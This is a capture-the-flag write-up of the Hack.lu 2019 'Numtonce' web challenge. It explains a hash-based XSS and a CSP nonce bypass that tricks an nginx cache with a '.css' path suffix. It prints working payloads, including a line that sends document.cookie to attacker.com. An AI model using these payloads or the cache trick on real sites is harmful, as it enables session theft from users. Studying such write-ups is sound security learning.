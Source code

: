 ```yaml
---
layout: writeup
title:  "Numtonce"
source: "https://fluxfingersforfuture.fluxfingers.net/challenges/29"
solves: "7/972"
date:   2019-10-12 01:10:05 +0200
event: "Hack.lu 2019"
categories: [writeup]
ctf_categories: [web, XSS, CSP]
author: "Alain K."
image: "website.png"

---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](https://github.com/LetzPwn/ctf-writeups/raw/master/hack_lu_2019/Numtonce/website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to subit an URL too. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](https://github.com/LetzPwn/ctf-writeups/raw/master/hack_lu_2019/Numtonce/csp.png)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( {nonce} being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

{nonce} being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

